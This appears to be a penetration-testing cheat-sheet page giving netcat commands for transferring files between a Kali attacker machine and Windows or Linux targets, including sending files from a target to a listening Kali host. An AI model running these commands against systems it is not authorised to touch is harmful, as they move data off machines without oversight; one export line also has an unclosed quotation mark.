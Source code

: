 ```yaml
---
title: Netcat File Transfer
layout: default
nav_order: 5
parent: File Transfers

---
```


# Netcat
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}

---

### Netcat File Transfers (Kali to Windows)
1. Sending From Windows
```bash
nc -w 3 192.168.119.239 1234 < file.txt
```

2. Receiving on Kali
```bash
nc -l -p 1234 > file.txt
```

---

1. Sending from Kali
```bash
export WinIP="192.168.128.10"
export port="1234
nc -w 3 $WinIP $port < out.file
```

2. Receiving on Windows
```bash
nc -l -p 1234 > out.file
```

### Netcat File Transfers (Kali to Linux)
1. Listen for file on target machine:
```bash
nc -nvlp $PORT > $FILENAME
```

2. Send file from Kali machine:
```bash
nc -nv $TARGET_IP $PORT < /path/to/file
```
